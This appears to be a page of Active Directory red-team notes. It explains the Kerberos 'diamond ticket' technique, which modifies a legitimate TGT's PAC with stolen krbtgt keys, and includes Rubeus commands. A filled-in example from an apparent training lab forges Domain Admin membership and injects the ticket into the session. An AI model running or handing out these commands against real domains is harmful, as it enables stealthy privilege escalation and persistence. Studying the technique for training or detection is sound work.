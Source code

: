 # Diamond Ticket

A diamond ticket is created by decrypting a valid TGT, making changes to it and re-encrypt it using the AES keys of the krbtgt account. 

Golden ticket was a TGT forging attacks whereas diamond ticket is a TGT modification attack. Once again, the persistence lifetime depends on krbtgt account. 

A diamond ticket is more opsec safe as it has:
- Valid ticket times because a TGT issued by the DC is modified
- In golden ticket, there is no corresponding TGT request for TGS/Service ticket requests as the TGT is forged


In this scenario, an attacker that has knowledge of the service long-term key (krbtgt keys in case of a TGT, service account keys of Service Tickets) can request a legitimate ticket, decrypt the PAC, modify it, recalculate the signatures and encrypt the ticket again. 
This technique allows to produce a PAC that is highly similar to a legitimate one and also produces legitimate requests.


```
Rubeus.exe diamond /domain:DOMAIN /user:USER /password:PASSWORD /dc:DOMAIN_CONTROLLER /enctype:AES256 /krbkey:HASH /ticketuser:USERNAME /ticketuserid:USER_ID /groups:GROUP_IDS


Rubeus.exe diamond
/krbkey:154cb6624b1d859f7080a6615adc488f09f92843879b3d914cbcb5a8c3cda848
/user:studentx /password:StudentxPassword /enctype:aes /ticketuser:administrator
/domain:dollarcorp.moneycorp.local /dc:dcorp-dc.dollarcorp.moneycorp.local
/ticketuserid:500 /groups:512 /createnetonly:C:\Windows\System32\cmd.exe /show
/ptt
```